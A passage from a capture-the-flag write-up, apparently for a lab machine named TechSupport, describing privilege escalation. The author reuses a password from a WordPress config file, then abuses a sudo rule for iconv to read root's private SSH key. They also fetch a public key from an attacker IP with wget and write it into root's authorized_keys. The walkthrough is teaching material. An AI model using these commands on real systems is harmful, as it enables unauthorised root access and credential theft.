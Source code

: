 ![](5.png)


# **Privilege Escalation**

After some basic enumeration on the machine, we come across wordpress config file where we find a password.

![](6.png)

Let's ssh into the machine as user `scamsite`(the one we found on the home directory) and the password we just got.

![](7.png)

Let's check our current privileges with teh current user.

```terminal
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv

```

We can run `iconv` as root. Let's chelk [GTFOBins](https://gtfobins.github.io/gtfobins/iconv/#sudo).

![](8.png)

We can use this to read any file we want, let's get root's private ssh key.

```bash
sudo iconv -f 8859_1 -t 8859_1 /root/.ssh/id_rsa
```

![](9.png)

Couldn't connect with the key, but we can upload our public to the target, and use `iconv` to copy the key to `authorized_keys` file.

```terminal
scamsite@TechSupport:~$ wget http://10.11.31.131/sirius.pub

scamsite@TechSupport:~$ sudo iconv -f 8859_1 -t 8859_1 sirius.pub -o /root/.ssh/authorized_keys
```

Now we can connect as root without a password.

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
